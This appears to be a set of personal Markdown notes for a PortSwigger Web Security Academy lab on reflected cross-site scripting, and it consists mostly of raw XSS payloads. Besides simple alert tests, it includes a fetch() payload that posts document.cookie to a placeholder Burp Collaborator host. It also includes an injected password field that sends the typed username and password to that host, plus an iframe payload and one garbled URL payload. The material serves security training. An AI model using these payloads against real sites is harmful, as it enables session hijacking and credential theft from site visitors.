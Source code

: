 # XSS

### [Reflected XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)

Goal: perform a cross-site scripting attack that calls the `alert` function.

- just try the basic `xss` payload `<script>alert(1)</script>`

  ```bash
  ?search=<script>alert%28"XSS"%29<%2Fscript>
  ```

  ```
  <script>alert(document.cookie)</script>
  <img src=1 onerror=alert(1)>
  
  <script>
  fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
  method: 'POST',
  mode: 'no-cors',
  body:document.cookie
  });
  </script>
  
  
  <input name=username id=username>
  <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
  method:'POST',
  mode: 'no-cors',
  body:username.value+':'+this.value
  });">
  
  
  <iframe src="https://your-lab-id.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
  
  
  https://0a450003049df566c03104d1000d000d.web-security-academy.net/?search=%27%20opo%20po<body%20onresize>p%20%27
  ```

  



---

### [Stored XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded)
